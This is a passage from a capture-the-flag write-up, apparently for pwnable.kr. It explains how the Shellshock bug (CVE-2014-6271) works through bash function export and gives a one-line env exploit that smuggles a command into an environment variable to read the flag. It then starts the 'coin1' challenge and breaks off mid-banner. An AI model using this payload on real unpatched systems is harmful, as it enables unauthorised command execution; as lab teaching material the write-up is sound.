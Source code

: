           $ yayfedora 
          Fedora is awesome.
          ```
      * Run the defined function in a new instance of bash
        * ```
          $ bash -c yayfedora
          bash: yayfedora: command not found
          ```
          * Child didn't inherit the function definition
        * It does **inherit the environment**
          * Environment is a collection of key-value pairs that have been exported from the shell
        * ```
          $ export -f yayfedora
          $ bash -c yayfedora
          Fedora is awesome.
          ```
    * Vulnerability
      * Bash shell will think the value in environment variable is a function as long as it **looks like a function** and  **evaluate** it when reading the environment(happens when a new shell starts)
      * ```env```
        * Runs a command with a given variable set
      * ```x```
        * ```x``` is the environment variable and it is set to something looks like a function
      * ```:```
        * A simple command which command which is defined as doing nothing
      * ```;```
        * Signals the end of the function definition
      * ```echo```
        * **Not supposed to be here**
### Exploit
```sh
env x='() { :;}; bash -c "cat ./flag"' ./shellshock
```
### Flag
```only if I knew CVE-2014-6271 ten years ago..!!```
### Reference
* https://fedoramagazine.org/shellshock-how-does-it-actually-work/
* https://devco.re/blog/2014/09/30/shellshock-CVE-2014-6271/

## coin1
### Description
> Mommy, I wanna play a game!  
> (if your network response time is too slow, try nc 0 9007 inside pwnable.kr server
> 
> Running at : nc pwnable.kr 9007
### Overview
* banner
  ```sh
  ---------------------------------------------------
  -              Shall we play a game?              -
  ---------------------------------------------------

  You have given some gold coins in your hand
  however, there is one counterfeit coin among them
  counterfeit coin looks exactly same as real coin
  however, its weight is different from real one
  real coin weighs 10, counterfeit coin weighes 9
  help me to find the counterfeit coin with a scale
  if you find 100 counterfeit coins, you will get reward :)
  FYI, you have 60 seconds.

  - How to play -
  1. you get a number of coins (N) and number of chances (C)
```